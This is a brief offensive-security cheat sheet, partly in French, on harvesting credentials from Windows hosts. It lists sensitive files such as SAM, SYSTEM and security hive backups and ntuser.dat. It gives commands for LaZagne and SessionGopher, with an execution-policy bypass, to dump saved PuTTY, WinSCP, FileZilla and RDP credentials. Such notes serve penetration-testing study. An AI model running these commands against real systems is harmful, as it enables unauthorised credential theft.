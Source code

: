 
Fichiers intéressants

```shell-session
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```


## LaZagne

```cmd
.\lazagne.exe all
```

## SessionGopher

https://github.com/Arvanaghi/SessionGopher

> [!TIP]
> Extract PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials.


```
Set-ExecutionPolicy Bypass -Scope Process
```

```powershell
Import-Module .\SessionGopher.ps1
```

```powershell
Invoke-SessionGopher -Target WINLPE-SRV01
```


## User/Computer Description Field

> [!TIP]
> Peut contenir des mots de passe.
> 
